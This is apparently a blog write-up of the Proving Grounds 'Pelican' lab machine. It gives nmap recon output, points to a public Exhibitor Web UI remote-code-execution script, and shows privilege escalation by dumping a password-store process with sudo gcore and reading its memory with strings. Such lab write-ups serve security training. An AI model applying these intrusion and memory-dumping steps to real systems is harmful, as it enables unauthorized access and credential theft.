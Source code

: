 ```yaml
---
date: '2024-09-13'
before : '2024-09-10'
after : '2024-09-16'
title: 'Proving Grounds : Pelican'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Pelican machine from Proving Grounds'
thumbnail: '../contentImages/pelican/1.png'
---
```


## 1. Recon
Starting with basic nmap scan
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.164.98 -p- -T4            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 17:07 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.59% done
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.63% done; ETC: 17:08 (0:01:00 remaining)
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.27% done; ETC: 17:08 (0:00:43 remaining)
Nmap scan report for 192.168.164.98
Host is up (0.032s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
46295/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.46 seconds

```
Oh my gosh. Let's go through step by step.


nmap scan for port 22 (ssh)
```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
```
Then, port 139, 445 (samba)
```
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)

Host script results:
|_clock-skew: mean: 1h20m02s, deviation: 2h18m34s, median: 1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2024-09-11T17:09:43-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-11T21:09:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```
Again, port 631 (ipp)
```
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
```
Suspicious port 2191 (zookeeper)
```
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
```
Strange that ssh is running on 2222, but port 2222 (ssh):
```
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
```
Standard http port 8080, 8081 (http)
```
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.164.98:8080/exhibitor/v1/ui/index.html
```
Finally, port 46295 (java-rmi)
```
46295/tcp open  java-rmi    Java RMI
```

So far, the most "suspicious" ports are indeed the one with zookeeper and http(s).


Let's start enueration...

## 2. Enumeration

As I visited webapp:
![image](../contentImages/pelican/1.png)

Somehow this should be connected to port 2191 (zookeeper). 

Searching with keyword exhibitor:

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit exhibitor
Exhibitor Web UI 1.7.1 - Remote Code Execution java/webapps/48654.txt
```

Let's take a closer look. I got a script from:

> https://github.com/thehunt1s0n/Exihibitor-RCE.git

Then:

![image](../contentImages/pelican/3.png)


Got a shell.

![image](../contentImages/pelican/4.png)

Or 

```

$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore

```
So maybe we should read password-store with gcore.

```
ps aux | grep "password-store"

(found out that PID is 490)

sudo /usr/bin/gcore 490

(created core.490)

strings ./core.490

(The `strings` command in Linux is used to extract and display readable **printable characters** (i.e., strings of text) from binary files or any non-text files)
```

![image](../contentImages/pelican/5.png)

So, let's try to escalate our privilege

![image](../contentImages/pelican/6.png)

Done!


Tipp: try to undestand gtfobins more correctly.

---
## Source

- Proving Grounds
- Me!